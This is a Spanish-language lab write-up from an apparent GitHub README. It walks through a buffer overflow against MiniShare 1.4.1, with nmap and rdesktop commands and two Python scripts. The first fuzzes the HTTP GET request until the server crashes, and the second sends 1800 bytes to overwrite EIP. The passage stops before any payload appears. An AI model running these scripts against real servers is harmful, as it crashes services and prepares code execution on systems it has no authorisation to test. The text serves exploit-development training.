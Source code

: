 # BUFFEROVERFLOW-MINISHARE-1.4.1
***
Se procedera a realizar un desdoblamiento de buffer con el software MINISHARE 1.4.1 habrimos una ventana emergente al lado de nuestro tilix para poder trabajar, usamos el siguiente comando, colacando la IP de la maquina vulnerable.
***
``` 
rdesktop " IP 192.168.a.b"  -u user -p paswword
```
****
### Screenshot
![inicio](https://user-images.githubusercontent.com/104048850/180593311-1796279a-4a4f-4ee8-8fae-baa47898a6e4.png)
Procedemos a realizar un escaneo de vulnerabilidades 
``` 
nmap 192.168.72.135 -sV

```
***
Podemos observar los puertos de la maquina vulnerable sin ejecutar el programa 
***
### Screenshot
![nmap](https://user-images.githubusercontent.com/104048850/180593535-955c4085-6369-4afb-b5e7-dd56e463c24f.png)
***
Ahora realizaremos el escaneo ejecutando el programa minishare usando la herramiento immunity debugger
### Screenshot
![image](https://user-images.githubusercontent.com/104048850/180593763-736524cd-0f76-4ce6-9894-0780023678ad.png)

Para ver que comando vamos a usar, utilizaremos burpsuite y un proxy 
### Screenshot
![image](https://user-images.githubusercontent.com/104048850/180593888-219158db-ad4b-454e-a6e5-2aa429d6c417.png)
***
                 Ahora  ejecutamos el siguinte script  para ver la capacidad del buffer prueba.py

```
n
#!/usr/bin/python3.8
# This is a Proof of concept about BufferOverflow vulnerability in MiniShare 1.4.1

# Part 1 of proof of concept by Vry4n
# This script is intended to discover the size of the buffer
import socket

FUZZ = ""

# While true increase the variable FUZZ by adding 100 "A" until the program crashes
while True:
    FUZZ += "A" * 100
    print("Fuzzing with {} bytes".format(len(FUZZ)))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect = s.connect(("192.168.a,b", 80))
    # from a web proxy capturing the HTTP GET Request, we got this line "GET / HTTP/1.1" This is the vulnerable section
    s.send(b"GET " + FUZZ.encode() + b"HTTP/1.1\r\n\r\n")
    s.recv(1024)
    s.close()

```
Ejecutamos prueba.py arrojandonos que su cvapacidad es de 1800 Bytes  nota: El minishare tiene que estar corriendo, cada ves que ejecutemos una acciones debemos reiniciar 
```
python prueba.py 

```

### Screenshot
![image](https://user-images.githubusercontent.com/104048850/180594493-62683eb9-2e28-498a-911c-de43adb2b45d.png)

Ahora que sabemos que el tamaño máximo de la pila es 1800, podemos modificar nuestro script para enviarlos en un solo paquete y procedemos a ejecutar 
```
 mousepad prueba2.py 
 
```
### Screenshot

```
 !/usr/bin/python3.8
# This is a Proof of concept about BufferOverflow vulnerability in MiniShare 1.4.1

# Part 2 of proof of concept by Vry4n
# This script is intended send all the buffer size in one packet, we need to see if EIP value gets overwritten 41414141 (AAAA)
import socket

FUZZ = "A" * 1800

print("Fuzzing with {} bytes".format(len(FUZZ)))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect(("192.168.a.b", 80))
# from a web proxy capturing the HTTP GET Request, we got this line "GET / HTTP/1.1" This is the vulnerable section
s.send(b"GET " + FUZZ.encode() + b"HTTP/1.1\r\n\r\n")
s.recv(1024)
s.close()
```
Ahora procedemos a ejecutar el prueba2.py
```









